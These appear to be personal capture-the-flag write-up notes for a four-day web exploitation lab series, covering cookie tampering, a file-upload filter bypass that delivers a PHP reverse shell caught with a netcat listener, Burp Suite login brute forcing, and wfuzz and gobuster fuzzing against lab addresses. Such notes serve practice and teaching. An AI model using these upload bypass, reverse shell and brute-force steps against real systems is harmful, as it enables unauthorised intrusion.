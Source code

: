## [Day 1] Web Exploitation: A Christmas Crisis [encoding]

1. Register and log in
2. Check cookies
3. Decode using Cyberchef
    - All numbers and early-in-the-alphabet letters → hex
4. Recognise format
5. Adjust username and re-encode using Cyberchef
6. Replace cookie value and refresh page
7. Turn everything on → success!

## [Day 2] Web Exploitation: The Elf Strikes Back! [file upload]

1. Create exploit script as described
2. Go to URL including GET request
    - `http://<url>/?id=<id-token>`
3. Check source code for upload types
4. Rename script to bypass filter
    - `$ mv php-reverse-shell.php php-reverse-shell.jpg.php`
5. Upload file. Simple message "File received successfully!"
    1. Check Burp Suite history - the POST was to `/upload`, so perhaps `/uploads/`? Test: `http://10.10.35.237/uploads/` → success!
    2. Also checked page source, find `http://10.10.35.237/assets/js/upload.js`. It's obfuscated, but so use [https://beautifier.io/](https://beautifier.io/) and [http://jsnice.org/](http://jsnice.org/) to make sense of it. However, doesn't seem to give much.
    3. Hints suggest using a directory brute-forcer
6. Set up netcat listener: `$ sudo nc -lvnp 443`
7. Click file from `http://10.10.35.237/uploads/`, or visit full URL `http://10.10.35.237/uploads/php-reverse-shell.jpg.php`
8. Check netcat, find shell
9. `sh-4.4$ cat /var/www/flag.txt` → success!

## [Day 3] Web Exploitation: Christmas Chaos [brute force]

1. Follow instructions to use Burp Suite to crack
    1. Intercept login
    2. Send to Intruder
    3. Clust Bomb
    4. Set Payloads
    5. Attack
2. One result has different length returned → success!

## [Day 4] Web Exploitation: Santa's watching [brute force / fuzzing]

1. `wfuzz -c -z file,big.txt http://shibes.xyz/api.php?breed=FUZZ`
2. `$ gobuster dir -u http://10.10.176.185/ -w /usr/share/wordlists/dirb/common.txt -x php`. Found `/api`, which led to `http://10.10.176.185/api/site-log.php` → success!
3. `$ wfuzz -c -z file,wordlist http://10.10.176.185/api/site-log.php?date=FUZZ` (wordlist downloaded from THM). Only one had any characters → success! 
